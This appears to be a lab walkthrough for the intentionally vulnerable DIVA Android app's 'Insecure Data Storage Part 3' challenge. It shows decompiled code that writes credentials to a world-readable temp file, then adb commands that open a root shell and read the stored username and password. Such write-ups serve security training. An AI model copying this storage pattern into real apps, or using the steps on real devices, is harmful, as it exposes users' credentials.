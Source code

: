 ## Insecure Data Storage Part 3


#### The vulnerability

This time, it is stored in a temp file

        view = (EditText)this.findViewById(2131493006);
        EditText editText = (EditText)this.findViewById(2131493007);
        Object object = new File(this.getApplicationInfo().dataDir);
        try {
            Comparable<File> comparable = File.createTempFile("uinfo", "tmp", (File)object);
            ((File)comparable).setReadable(true);
            ((File)comparable).setWritable(true);
            object = new FileWriter((File)comparable);
            comparable = new Comparable<File>();
            ((Writer)object).write(((StringBuilder)comparable).append(view.getText().toString()).append(":").append(editText.getText().toString()).append("\n").toString());
            ((OutputStreamWriter)object).close();
            Toast.makeText((Context)this, (CharSequence)"3rd party credentials saved successfully!", (int)0).show();
            return;
        }
        catch (Exception exception) {
            Toast.makeText((Context)this, (CharSequence)"File error occurred", (int)0).show();
            Log.d((String)"Diva", (String)("File error: " + exception.getMessage()));
            return;

#### How to exploit

        adb root 
        cd /data/data/jakhar.aseem.diva
        ls -al

u will see this

        drwxr-x--x  5 u0_a67 u0_a67       4096 2019-10-11 06:24 .
        drwxrwx--x 91 system system       4096 2019-10-11 06:20 ..
        drwxrws--x  2 u0_a67 u0_a67_cache 4096 2019-10-11 06:20 cache
        drwxrws--x  2 u0_a67 u0_a67_cache 4096 2019-10-11 06:20 code_cache
        drwxrwx--x  2 u0_a67 u0_a67       4096 2019-10-11 06:20 databases
        -rw-------  1 u0_a67 u0_a67         35 2019-10-11 06:24 uinfo1241259384763728833tmp

cat the uinfo file
        
        generic_x86_64:/data/data/jakhar.aseem.diva # cat  uinfo1241259384763728833tmp
        Lewis Hamilton:GetinthereLewis!!!!
        
### **BINGO!!!**




